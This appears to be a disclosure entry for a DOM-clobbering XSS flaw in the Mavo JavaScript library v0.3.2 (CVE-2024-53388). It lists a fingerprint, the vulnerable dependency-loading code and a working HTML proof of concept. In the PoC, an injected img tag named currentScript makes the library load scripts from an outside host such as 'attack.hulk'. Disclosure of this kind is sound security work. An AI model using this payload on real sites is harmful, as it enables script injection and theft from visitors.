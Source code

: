 ## Mavo

### Meta

+ Library: Mavo
+ Stars: 2.8K
+ Version: v0.3.2
+ Fingerprint: `typeof Mavo !== 'undefined' && Mavo.hasOwnProperty('Plugins')`
+ Payload: ```<img name="currentScript" src="https://attack.hulk"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: [CVE-2024-53388](https://nvd.nist.gov/vuln/detail/CVE-2024-53388)
+ Foundby: TheHulk

### Library

https://github.com/mavoweb/mavo

URL:
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.es5.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.es5.min.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.min.js`
+ `https://cdn.jsdelivr.net/npm/mavo@0.3.2/dist/mavo.min.js`

### Vulnerable Code Snippet

```javascript
if (o.dependencies) {
    let base = document.currentScript? document.currentScript.src : location;
    let dependencies = o.dependencies.map(url => Mavo.load(url, base));
    ready.push(...dependencies);
}
```

## PoC

```html
<!--Library-->
<script src="https://get.mavo.io/stable/mavo.js"></script>
<link rel="stylesheet" href="https://get.mavo.io/stable/mavo.css">
<script>
(function ($, $$) {

Mavo.Plugins.register("myplugin", {
	dependencies: ["a.js"],
});

})(Bliss, Bliss.$);
</script>
<!--Library-->

<!--Payload-->
<img name=currentScript src="http://localhost:9999"></img>
<!--Payload-->
```